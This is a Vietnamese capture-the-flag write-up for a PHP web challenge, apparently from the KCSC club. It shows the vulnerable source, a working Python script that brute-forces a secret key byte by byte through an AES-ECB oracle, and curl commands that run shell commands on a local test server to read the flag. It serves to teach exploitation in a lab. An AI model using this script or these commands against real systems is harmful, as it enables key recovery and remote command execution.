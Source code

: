 # EncryptBoizzz


## Enumeration
`source-code`: http://localhost:2010?debug=hint
```php
define('BLOCK_SIZE', 16);

function pad($string) {
	if (strlen($string) % BLOCK_SIZE === 0)
		$plaintext = $string;
	else  {
		$s = BLOCK_SIZE - strlen($string) % BLOCK_SIZE;
		$plaintext = $string.str_repeat(chr($s), $s);
	} 
	return $plaintext;
}
function encrypt($name) {
	global $auth_key, $key_for_enc; // from config.php with luv!!

	$method = 'AES-128-ECB';
	$plaintext = pad($name.$auth_key);
	return bin2hex(openssl_encrypt($plaintext, $method, $key_for_enc, OPENSSL_RAW_DATA));
}

if (isset($_GET["name"])) 
	$_SESSION["name"] = encrypt($_GET['name']);

if (isset($_GET['file'])) { // safe() in config.php, try to guess my filter =))
	if (safe($_GET['file'])) 
		@readfile($_GET['file']);
	else die("Dont hack me please =((((");
}

if (isset($_GET['auth_key'])) {
	if ($_GET['auth_key'] === $auth_key) {
		if ( isset($_GET["command"]) && strlen($_GET["command"]) <= 5)
			@system($_GET["command"]);
	}
	else echo "Wrong auth_key!!";
}
```

**Review source-code**:  

1. Chương trình lấy `name parameter` mà ta cung cấp, nối với `$auth_key` rồi encrypt với method `AES-128-ECB`(Electronic Code Block) và convert sang hexdecimal rồi gán cho session. 

2. Cho file parameter và ta có thể đọc được các file trong hệ thống, tuy nhiên hàm này có đi qua 1 hàm fitler là `safe()`, ta có thể dùng `file` để đọc `/tmp/sess_[PHPSESSID]` và thấy được kết quả sau khi encrypt.

3. Cho `auth_key parameter`, nếu cung cấp đúng `auth_key` thì cho phép thực thi code tuy nhiên bị giới hạn không quá 5 ký tự.

## Exploit
Thuận toán ECB encryption là 1 thuật toán mã hóa không an toàn, đặc biệt khi `block_size` quá bé như 16 bytes. 

Ta biết rằng thuật toán ECB chia plaintext ra thành các block 16 bytes và encrypt các block này độc lập với nhau. Nếu chưa đủ 16 bytes thì thuật toán sẽ tự thêm padding cho đủ 16 bytes. 

Nếu ta request: `?name= 'A' * 32` thì ta sẽ được 2 block A sau khi encrypt là như nhau.
```
5673760b1cc65c365e93fa8f4317a2c4

5673760b1cc65c365e93fa8f4317a2c4

ddef00dfaf0fc11ded05777122bec5c5
5fec0e7366a611d06db4ea75b91cedc3
```
**Reference**: https://zachgrace.com/posts/attacking-ecb/

Như link tham khảo trên, ta thấy rằng có thể đọc được auth_key bằng cách brute-force từng byte của auth_key. 

**Python Exploit**:
```python
import requests
import string
import re

url = 'http://localhost:2010/'
characters = string.digits + string.ascii_letters
auth_key = ''

cookies = {
	'PHPSESSID': '420e324bd72e1caf08a5cdf5d28317b4'
}

def check():
	r = requests.get(url, cookies=cookies, params={'file': '/tmp/sess_420e324bd72e1caf08a5cdf5d28317b4'})
	
	block = re.findall('name|s:.*:"(.*)";', r.text)[1]

	return block[0:32] == block[32:64]


for i in range(15, -1, -1):
	for c in characters:
		payload = 'A' * i + auth_key + c + 'A' * i

		r = requests.get(url, cookies=cookies, params={'name': payload})

		print(c)

		if check():
			auth_key += c
			print('[FOUND] - ' + auth_key)
			break
```

**auth_key**: `AuthKey4N00b3r`

Có được auth_key rồi, tìm flag thôi!!

```bash
# List file tìm được file chứa flag
curl 'http://localhost:2010/?command=ls%20/&auth_key=AuthKey4N00b3r'
# nice_flag_for_new_kcsc_member.txt
```
Thử `?file=/nice_flag_for_new_kcsc_member.txt` nhưng không thể đọc được, có lẽ đã bị hàm safe() filter. Tuy nhiên ta vẫn có thể dùng m4(command tựa cat) cùng với wildcard(`*`) để đọc hết file ở root directory.
```bash
curl 'http://localhost:2010/?command=m4%20/*&auth_key=AuthKey4N00b3r'
```

**flag**: `KCSC{flag_for_testing}`
